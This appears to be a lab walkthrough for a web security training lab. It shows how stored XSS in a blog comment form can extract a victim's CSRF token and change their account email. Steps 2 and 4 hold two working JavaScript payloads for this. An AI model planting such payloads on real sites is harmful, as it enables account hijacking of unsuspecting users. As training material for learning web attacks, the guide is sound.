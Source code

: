 # 🛡️ Lab Guide: Exploiting XSS to Bypass CSRF Defenses

This guide demonstrates how to exploit a **Cross-Site Scripting (XSS)** vulnerability to bypass CSRF protections and change a victim’s email address using **Burp Suite**. You’ll craft a payload to extract a CSRF token and perform an unauthorized action. Let’s get started! 🚀

---

## 📋 Objective
Exploit an XSS vulnerability in a blog comment system to extract a CSRF token and issue a POST request to change the victim’s email address, bypassing CSRF protections.

---

## 🛠️ Tools Needed
- **Burp Suite** (with Burp’s browser)
- Basic understanding of XSS, CSRF, and HTTP requests

---

## 📝 Step-by-Step Instructions

### 1️⃣ Analyze the Email Update Functionality
- Log in to your account using the provided credentials in **Burp’s browser**.
- Navigate to the account page (e.g., `https://YOUR-LAB-ID.web-security-academy.net/my-account`).
- View the page source and note:
  - The email update requires a POST request to `/my-account/change-email` with parameters `email` and `csrf`.
  - The CSRF token is in a hidden input field named `csrf`.

### 2️⃣ Craft the XSS Payload
- Navigate to a blog post (e.g., `https://YOUR-LAB-ID.web-security-academy.net/post?postId=1`) and access the comment submission form.
- Submit the following XSS payload in the comment field:
  ```html
  <script>
  var req = new XMLHttpRequest();
  req.onload = handleResponse;
  req.open('get','/my-account',true);
  req.send();
  function handleResponse() {
      var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
      var changeReq = new XMLHttpRequest();
      changeReq.open('post', '/my-account/change-email', true);
      changeReq.send('csrf='+token+'&email=test@test.com');
  };
  </script>
  ```
- **Note**: This script fetches the `/my-account` page, extracts the CSRF token, and sends a POST request to change the victim’s email to `test@test.com`.

### 3️⃣ Verify the Exploit
- When a victim (e.g., the admin) views the comment, the script executes in their browser, changing their email address.
- Log in as the victim (if credentials are provided) or check the lab interface to confirm the email change.

### 4️⃣ Alternative Approach (For Reference)
- You could use a simpler payload to perform the same action directly:
  ```javascript
  window.addEventListener('DOMContentLoaded', function(){
      var token = document.getElementsByName('csrf')[0].value;
      this.fetch('/my-account/change-email', {
          method: 'POST',
          mode: 'no-cors',
          body: 'email=IyYV7@example.com&csrf='+token
      });
  });
  ```